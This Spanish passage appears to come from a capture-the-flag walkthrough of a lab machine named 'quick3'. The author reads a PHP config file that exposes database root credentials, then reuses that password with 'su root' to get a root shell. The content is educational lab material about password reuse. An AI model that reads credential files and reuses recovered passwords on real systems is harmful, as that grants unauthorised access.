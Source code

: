 ```shell
mike@quick3:/var/www/html/customer$ ll
total 232
drwxr-xr-x  7 www-data www-data  4096 Jan 24 12:48 ./
drwxr-xr-x 11 www-data www-data  4096 Jan 30 21:29 ../
-rw-r--r--  1 www-data www-data 19730 Jan 23 20:58 cars.php
-rw-r--r--  1 www-data www-data   202 Jan 21 15:28 config.php
-rw-r--r--  1 www-data www-data 35755 Jan 23 16:15 contact.php
drwxr-xr-x  2 www-data www-data  4096 Jan 22 19:38 css/
-rw-r--r--  1 www-data www-data  9834 Jan 23 16:16 dashboard.php
drwxr-xr-x  2 www-data www-data  4096 Jan 22 19:38 fonts/
drwxr-xr-x  5 www-data www-data  4096 Jan 22 19:38 images/
-rw-r--r--  1 www-data www-data  3171 Jan 22 19:34 index.php
drwxr-xr-x  2 www-data www-data  4096 Jan 22 19:38 js/
-rw-r--r--  1 www-data www-data  4118 Jan 24 12:43 login.css
-rw-r--r--  1 www-data www-data   805 Jan 21 15:37 login.php
-rw-r--r--  1 www-data www-data   184 Jan 21 15:41 logout.php
drwxr-xr-x  2 www-data www-data 20480 Jan 22 19:38 modules/
-rw-r--r--  1 www-data www-data   451 Jan 23 21:24 remove.php
-rw-r--r--  1 www-data www-data   372 Jan 24 12:30 script.js
-rw-r--r--  1 www-data www-data 57002 Jan 24 12:48 style.css
-rw-r--r--  1 www-data www-data  1121 Jan 23 21:19 submitcar.php
-rw-r--r--  1 www-data www-data  1104 Jan 24 09:10 updatepassword.php
-rw-r--r--  1 www-data www-data  1213 Jan 24 08:06 updateuser.php
-rw-r--r--  1 www-data www-data 19307 Jan 24 09:04 user.php
mike@quick3:/var/www/html/customer$
```

Hay un fichero llamado **`config.php`**. Por el nombre podemos asumir que ahí dentro está la configuración, no sabemos de qué, pero sabiendo que los datos se deben guardar en una base de datos, nos podemos hacer una idea.

Veamos lo que hay dentro del fichero **`config.php`**:

```php
<?php
// config.php
$conn = new mysqli('localhost', 'root', 'fastandquicktobefaster', 'quick');

// Check connection
if ($conn->connect_error) {
        die("Connection failed: " . $conn->connect_error);
}
?>
```

Vemos que este fichero se encarga de verificar la conexión a la base de datos, para ello primero establece las credenciales para entrar en la **`DB`**.

Vemos que el usuario se llama **`root`** y hay una contraseña, podemos probar a ver si la contraseña es la misma para el usuario **`root`** de la máquina:

```shell
mike@quick3:/var/www/html/customer$ su root
Password: fastandquicktobefaster
root@quick3:/var/www/html/customer#
```

¡Qué sorpresa, pensaba que sería más difícil! Pues eso es todo, ya tenemos el **`control total`** y todo gracias a que la contraseña ha sido reutilizada. ¡Qué fácil!